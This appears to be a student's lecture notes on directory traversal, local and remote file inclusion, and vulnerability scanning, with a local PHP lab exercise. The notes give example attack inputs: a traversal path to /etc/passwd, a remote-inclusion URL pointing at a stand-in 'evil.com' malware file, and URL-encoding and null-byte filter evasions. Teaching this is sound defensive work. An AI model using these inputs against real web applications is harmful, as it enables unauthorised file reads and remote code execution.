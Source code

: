 # File Inclusion and Vulnerability Scanning

## Lecture Notes: LFI and RFI

### Web Application Review

* web applications are often built on default file system setups (ex. /var/www/html) with default files (ex. index.html)

### Directory Traversal

* web applications don't always properly validate user input
* attacker can read files without authorization
* most common method is ../ or ..

### Directory Traversal vs. File Inclusion

* directory traversal can lead to file inclusion
* execution is the main difference

### LFI and RFI

* Local File Inclusion
  * attackers use local files to exploit areas of the application vulnerable to file inclusion ex. website.com/view.php?file=file.txt | website.com/view.php?file=../../etc/passwd
* Remote File Inclusion
  * attackers use remote files to exploit areas of the application vulnerable to file inclusion ex. website.com/view.php?file=file.txt | website.com/view.php?file=http://evil.com/malware.php&#x20;

### Evading Input Sanitization

* URL encode parameters
  * ../ -> %2e%2e%2f
* null byte
  * ../../etc/passwd%00.txt&#x20;

## Lecture Notes: Vulnerability Scanning

* a technique used to identify hosts/host attributes and associated vulnerabilities&#x20;
* pros:&#x20;
  * fast&#x20;
    * less expensive than a pentest&#x20;
    * used by pentesters during a time-boxed engagement
  * can usually be automated
* cons:&#x20;
  * not as thorough
  * false positives
  * ratings can be subject to change
    * environment
    * configuration
    * data
  * not stealthy by default&#x20;
* why use?
  * compliance
  * easy
  * fast&#x20;

### Types of Scanners

* network
* web application

### Examples of Scanners

* traditional
  * OpenVAS
  * Nessus
  * Rapid7
* web application
  * Nikto
  * Burp suite
  * ZAP

## Activity: Scanning with Nikto

```
nikto -host [IP address]
```

## Activity: File Inclusion Vulnerabilities

<pre><code>mkdir file-inclusion
cd file-inclusion
nano index.php
nano page1.html
nano page2.html
nano page3.html
php -S 127.0.0.1:9000
# navigate to 127.0.0.1:9000 in web browser
nano rfi.html
python3 -m http.server 8000
cp /etc/php/8.1/cli/php.ini .
nano php.ini
<strong># change allow_url_include to On
</strong>php -S 127.0.0.1:9000 -c php.ini 
</code></pre>

## Bifur and Activities Notes

* was able to use the "Inspect" feature to change the file being requested
* can use ; to string commands together
* can use PHP files via RFI to run commands (system function in PHP)
